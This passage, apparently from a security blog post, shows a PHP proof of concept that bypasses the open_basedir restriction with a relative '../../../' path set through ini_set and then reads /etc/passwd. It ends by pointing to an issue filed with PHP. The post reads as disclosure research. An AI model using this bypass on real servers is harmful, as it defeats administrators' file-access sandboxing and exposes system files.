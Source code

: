 ```php
    read_etc_passwd();
  }

  $path = "d/e/f";
  if (mkdir($path, 0777, true)){
    chdir($path);
    ini_set("open_basedir", ini_get('open_basedir').":./../../../");
    chdir($here);
    echo "open_basedir directive is now ".ini_get('open_basedir').PHP_EOL;
    read_etc_passwd();
  }
?>
```

And the result was as follows:

<img width="100%" style="margin-left:auto;margin-right:auto;display:block;" alt="bypass fix" src="/assets/res/stuff/poc_php.png">

The issue was reported [here](https://github.com/php/php-src/issues/10469) and I guess that it will not be considered as a security issue. But still, does it really make sense to allow dot-dot-slash in such path ??
